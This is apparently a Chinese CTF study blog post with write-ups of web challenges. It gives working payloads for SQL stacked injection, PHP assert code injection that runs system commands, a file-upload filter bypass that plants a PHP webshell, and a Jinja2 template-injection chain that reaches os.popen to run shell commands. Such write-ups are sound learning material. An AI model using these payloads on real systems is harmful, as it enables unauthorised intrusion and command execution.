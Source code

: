 ```yaml
---
layout: post 
title: "2020.3.15学习总结"
date: 2020-03-15
author: su29029
tags: Web
---
```

### sql堆叠注入[stack injection]
当我们无法使用select等查询语句时[通常来说是被过滤了]，我们可以考虑尝试堆叠注入。所谓堆叠注入，顾名思义，就是一次性执行多条sql语句。我们知道sql语句以分号```;```结束，故如果我们使用分号提前结束前一条sql语句，然后再在分号后面执行我们想执行的语句，最后注释掉原本后面的sql语句段，就能实现堆叠注入的效果，从而造成了sql注入。  
不过sql堆叠注入的利用条件有限，通常只有在后台sql允许一次执行多条语句时才能利用。以一个题来举例子：  
题目链接：https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=5417&page=1  
拿到题目先尝试```'```发现sql报错，故判断存在sql注入点。随后```1'or '1'='1```，发现有回显，随后借助```order by```发现有两列，但尝试union select查询时发现了下面这条提示：  
<img src="/assets/img/20200315学习总结/20200315学习总结1.jpg">  
发现select，update，drop等等关键词都被过滤了，而且发现通过大小写，加注释等方式无法绕过，故只能放弃这一注入方式。随后尝试堆叠注入。  
尝试显示一下所有数据库和所有数据表。  
<img src="/assets/img/20200315学习总结/20200315学习总结2.jpg">  
<img src="/assets/img/20200315学习总结/20200315学习总结3.jpg">  
随后显示出words表和1919810931114514表的列：  
<img src="/assets/img/20200315学习总结/20200315学习总结4.jpg">  
<img src="/assets/img/20200315学习总结/20200315学习总结5.jpg">  
发现在19198109931114514表中存在我们想要的flag，且查询的时候是查询words表里的id，故我们尝试更改表名并把flag列名修改成id列名，19198109931114514表名修改成words表名。  
最终payload：```1';rename tables `words` to `words1`;rename tables `1919810931114514` to `words`; alter table `words` change `flag` `id` varchar(100)```  
<img src="/assets/img/20200315学习总结/20200315学习总结6.jpg">  
最后通过```1'or '1'='1 #```得到flag。  
<img src="/assets/img/20200315学习总结/20200315学习总结7.jpg">  
### php == 弱类型比较
php中有两种比较方式，```==```和```===```，其中==在进行比较的时候，会先将字符串类型转化成相同，再比较，而===在进行比较的时候，会先判断两种字符串的类型是否相等，再比较。举几个例子：  
<img src="/assets/img/20200315学习总结/20200315学习总结8.jpg">  
当php比较字符串和数字时，会将字符串向数字尝试转换，字符串的开始部分决定了它的值，如果该字符串以合法的数值开始，则使用该数值，否则值为0。但当字符串中出现.,e,E等字符时，如果字符前后都可转化为合法数字，则.会使字符串转化为小数，e,E会将字符串转换为科学计数法表示的数字。布尔值和数字比较时，true和大于等于1的数弱类型相等，false和0相等。  
### git源码泄露
git是一个是一个开源的分布式版本控制系统，可以有效、高速地处理从很小到非常大的项目版本管理。而初始化一个git目录时，会产生一个.git的文件夹，如果没有处理好则会造成git源码泄露。git源码可以通过GitHack来获取文件。以一个题目来举例子。  
题目链接：https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=5002&page=1  
拿到题目收集一下信息，F12发现element的注释里有个flag，访问发现为空。发现about页面提示使用了git，判断存在git源码泄露。  
<img src="/assets/img/20200315学习总结/20200315学习总结9.jpg">  
访问/.git/目录，发现果然存在git源码泄露。  
<img src="/assets/img/20200315学习总结/20200315学习总结10.jpg">  
随后使用[GitHack](https://github.com/lijiejie/GitHack)将源码还原。  
<img src="/assets/img/20200315学习总结/20200315学习总结11.jpg">  
打开flag.php，发现内容是空的。  
<img src="/assets/img/20200315学习总结/20200315学习总结12.jpg">  
打开index.php看看，发现了关键代码：  
```
<?php

if (isset($_GET['page'])) {
	$page = $_GET['page'];
} else {
	$page = "home";
}

$file = "templates/" . $page . ".php";

// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");

?>
```
<img src="/assets/img/20200315学习总结/20200315学习总结13.jpg">  
发现对page的内容只过滤了```..```，故尝试通过闭合连接字符串和执行系统命令来获取flag。故构造如下payload：```'.system("cat ./templates/flag.php").'```最后在注释里面获得flag。  
<img src="/assets/img/20200315学习总结/20200315学习总结14.jpg">  
### 文件上传
题目链接：https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]Upload
打开题目发现有一个文件上传的接口，随便上传一个1.jpg看看，发现提示Not Image。  
<img src="/assets/img/20200315学习总结/20200315学习总结15.jpg">  
修改请求，写入一句话木马，并修改文件名为1.php，再次上传，发现提示错误。
<img src="/assets/img/20200315学习总结/20200315学习总结16.jpg">  
使用phtml后缀绕过，再次提交，依然发现错误。  
<img src="/assets/img/20200315学习总结/20200315学习总结17.jpg">  
说明后台对文件内容也进行了分析，提示发现```<?```故尝试通过```<script language="php"></script>```绕过，发现成功上传木马。  
<img src="/assets/img/20200315学习总结/20200315学习总结18.jpg">  
下面就简单了，使用蚁剑连接。然而发现直接连接/1.phtml会报错，故猜测/upload/1.phtml路径，发现成功连接。  
<img src="/assets/img/20200315学习总结/20200315学习总结19.jpg">  
(发现了好多不同的文件后缀，应该除了.phtml其他格式应该也能绕过吧，回头都试试嗯)
后面搜一搜服务器，flag就到手了。  
<img src="/assets/img/20200315学习总结/20200315学习总结20.jpg">  
### python flask 模板注入
python的flask框架使用Jinja2作为模板渲染引擎，如果render_template_string函数在渲染模板的时候使用了%s来动态的替换字符串，这里将造成ssti漏洞。Jinja2中{{}}是变量包裹标识符，它会将{{}}中的内容当作变量解析替换，如果我们的url中也含有{{}}的话，就会造成ssti。  
以一个题目举例子：  
题目链接：https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=5408&page=1  
打开题目提示python template injection，尝试{{2×3}}发现表达式被执行，故存在ssti。  
<img src="/assets/img/20200315学习总结/20200315学习总结21.jpg">  
我们现在需要考虑借助这个ssti获得服务器的控制台权限。因为是python的框架，所以我们需要使用python来获取控制台权限，我们想到了```os.system```和```os.popen```两个方法，前者返回**退出状态码**，后者以**file形式**返回**输出内容**。这里我们要看到内容，故选择```os.popen```。    

那么怎么找到这个方法呢，python为我们提供了完整的查找链：  
```
__class__:返回对象所属类；
__mro__:返回一个类所继承的基类元组，方法在解析按照元组的顺序解析；
__base__:返回该类所继承的基类；
__subclasses__:每个新类都保留了子类的引用，这个方法返回一个类中仍然可用的引用的列表；
__init__:类的初始化方法；
__globals__:对包含函数全局变量的字典的引用。
```  

ok，我们可以开始操作了。  
首先找到当前变量所在的类。

```
{{''.__class__}}
```
服务器返回：  
```
URL http://111.198.29.45:59359/<type 'str'> not found
```
这个回复告诉我们，当前变量所在的类是str。   
随后我们找到它的基类。   

```
{{''.__class__.__mro__}}
```
服务器返回：  
```
URL http://111.198.29.45:59359/(<type 'str'>, <type 'basestring'>, <type 'object'>) not found
```  
基类也有了。   
下一步找到任意一个基类的引用列表。

```
{{''.__class__.__mro__[2].__subclasses__()}}
```

服务器返回了一大串，我们找到os所在的```site._Printer```类，它在第72位，即```__subclasses__()[71]```。   
于是我们可以开始读取命令行输出了。   

```
{{''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('ls').read()}}
```
服务器返回：  
```
URL http://111.198.29.45:59359/fl4g index.py not found
```  
最后一步，读取fl4g。  

```
{{''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('cat fl4g').read()}}
```
服务器返回：  
```
URL http://111.198.29.45:59359/ctf{f22b6844-5169-4054-b2a0-d95b9361cb57} not found
```  
flag到手。  
